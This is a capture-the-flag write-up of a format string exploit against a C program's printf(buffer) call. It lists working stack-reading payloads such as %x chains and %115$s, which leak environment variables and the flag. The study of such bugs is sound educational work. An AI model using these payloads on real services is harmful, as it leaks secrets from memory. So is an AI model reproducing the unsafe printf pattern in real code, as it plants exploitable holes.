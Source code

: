 # TimeBomb (850 Points)

## Challenge Overview
TimeBomb was a binary exploitation challenge featuring a C program with a classic format string vulnerability. The challenge was accessible via `nc timebomb-dc33.hexnova.quest 9999` and required exploiting the vulnerability to extract a flag stored as an environment variable.

## Solution Steps

### Initial Analysis
We started by examining the vulnerable C code, which contained a critical format string bug in the `vuln()` function:

```c
void vuln() {
    char buffer[512];
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);  // FORMAT STRING VULNERABILITY!
    exit(0);
}
```

The `printf(buffer)` call directly prints user input without a format specifier, creating a textbook format string vulnerability.

### Vulnerability Confirmation
Our first step was confirming the format string bug with a simple payload:
```
%x.%x.%x.%x.%x.%x.%x.%x
```

This revealed stack contents in hexadecimal format, confirming the vulnerability was exploitable and showing us the stack layout.

### Finding Input Position
To locate our input on the stack, we used:
```
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
```

We found our input (AAAA = 0x41414141) at stack position 6, which meant we could use `%6$n` for arbitrary writes if needed.

### Stack Reconnaissance 
We systematically mapped the stack using payloads like:
- `%40$p.%41$p...%50$p` 
- `%85$p.%90$p...%120$p`

This revealed promising high memory addresses around positions 105-120 that could point to environment variables.

### Environment Variable Extraction
The key insight was that the flag was stored as an environment variable, not requiring code execution. We used direct parameter access to read strings from specific stack positions:

- `%105$s` → `AWS_EXECUTION_ENV=AWS_ECS_FARGATE`
- `%110$s` → `LAMBDA_URL=https://yavdhl4qozqpiugwirgyfhj4hm0hpykh.lambda-url.us-west-1.on.aws/`
- `%115$s` → `FLAG=FLAG-{Reverse7heBombt0trigg3rflagc4fb5}` ✅

### Flag Recovery
The successful payload `%115$s` revealed the complete flag:
```
FLAG-{Reverse7heBombt0trigg3rflagc4fb5}
```

## Key Techniques
- Format string vulnerability exploitation
- Stack layout analysis and reconnaissance  
- Direct parameter access using `%N$s` syntax
- Environment variable extraction from memory
- Binary exploitation without code execution

## Tools Used
- `nc` for network connection
- Format string payloads for memory reading
- Systematic stack position enumeration
- Manual exploitation techniques

## Lessons Learned
This challenge demonstrated several important concepts:
- Format string vulnerabilities remain dangerous and common
- Environment variables are stored at predictable stack locations
- Sometimes information disclosure is sufficient without achieving code execution
- Systematic approach to stack reconnaissance is crucial for exploitation
- The `%N$s` syntax provides powerful direct memory access capabilities

The solution highlighted how format string bugs can be leveraged for information disclosure, showing that not all binary exploitation requires achieving code execution - sometimes reading sensitive data from memory is the intended path.